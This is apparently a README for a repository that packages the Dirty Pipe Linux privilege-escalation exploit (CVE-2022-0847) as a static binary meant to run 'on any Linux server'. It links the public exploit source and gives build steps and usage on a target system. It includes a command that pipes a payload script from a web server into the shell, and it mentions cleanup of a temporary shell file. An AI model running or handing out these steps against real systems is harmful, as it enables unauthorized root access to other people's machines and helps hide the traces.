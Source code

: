 # dirtypipe (CVE-2022-0847)

![screenshot](./files/dirtypipe.png)

## References: 
- [ArsTechnica article](https://arstechnica.com/information-technology/2022/03/linux-has-been-bitten-by-its-most-high-severity-vulnerability-in-years/)
- [Max Kellermann's article and PoC](https://dirtypipe.cm4all.com/)
- [Public exploit](https://haxx.in/files/dirtypipez.c)

## Objective

Build a static exploit that can be run on any Linux server.

## How to build

```bash
./build.sh
```

## How to use

Once uploaded on the target system:

```bash
source payload.sh
```

If uploaded on a webserver:

```bash
source <(curl -s https://webserver/payload.sh)
```

## `dirtypipez.c`

The source on this repo is a bit modified (log message) as the `payload.sh` takes care of removing the `/tmp/sh` file.
